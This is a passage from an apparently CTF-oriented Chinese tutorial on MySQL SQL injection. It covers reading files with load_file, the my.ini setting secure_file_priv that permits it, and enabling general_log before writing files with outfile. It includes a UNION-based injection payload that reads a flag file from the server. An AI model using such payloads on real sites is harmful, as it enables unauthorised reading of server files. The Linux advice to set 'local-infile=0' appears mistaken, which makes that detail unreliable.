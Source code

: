#### 2. load_file使用方法

直接load_file导入文件内容

```
id=-1' union select 1, load_file('E:\flag.txt'),3 -- -
```

#### 3. 需要开启的配置

Windows下的MySQL想要load_file函数可以使用需要配置一下，在my.ini中添加这句话`secure_file_priv= `：

```ini
[mysqld]
port=3306
basedir=D:/php/phpStudy_64/phpstudy_pro/Extensions/MySQL5.7.26/
datadir=D:/php/phpStudy_64/phpstudy_pro/Extensions/MySQL5.7.26/data/
character-set-server=utf8
default-storage-engine=MyIsam
#支持INNODB引擎模式。修改为default-storage-engine=INNODB即可。
#如果INNODB模式如果不能启动，删除data目录下ib开头的日志文件重新启动。
secure_file_priv=         #就是这一句！！！！！
max_connections=100
collation-server=utf8_unicode_ci
init_connect='SET NAMES utf8'
innodb_buffer_pool_size=64M
innodb_flush_log_at_trx_commit=1
```

然后保存重启mysql，进入mysql命令行之后，可以输入以下命令查询：

```mysql
show global variables\G;
```

而如果是Linux下的MySQL，则需要在/etc/my.cnf的[mysqld]下面添加`local-infile=0`选项。



## 0x0d outfile写入文件 

#### 1. 需要开启的配置

首先需要确认数据库开启了写入文件的功能，先在MySQL命令行中查询一下general_log是否开启，没有的话输入`set global general_log=on;`设置开启。

```mysql
mysql> show global variables like "general_log";
+---------------+-------+
| Variable_name | Value |
+---------------+-------+
| general_log  | OFF  |
+---------------+-------+
1 row in set, 1 warning (0.01 sec)
mysql> set global general_log=on;
Query OK, 0 rows affected (0.02 sec)
mysql> show global variables like "general_log";
+---------------+-------+
| Variable_name | Value |
+---------------+-------+
| general_log  | ON  |
+---------------+-------+
1 row in set, 1 warning (0.01 sec)
mysql>
```
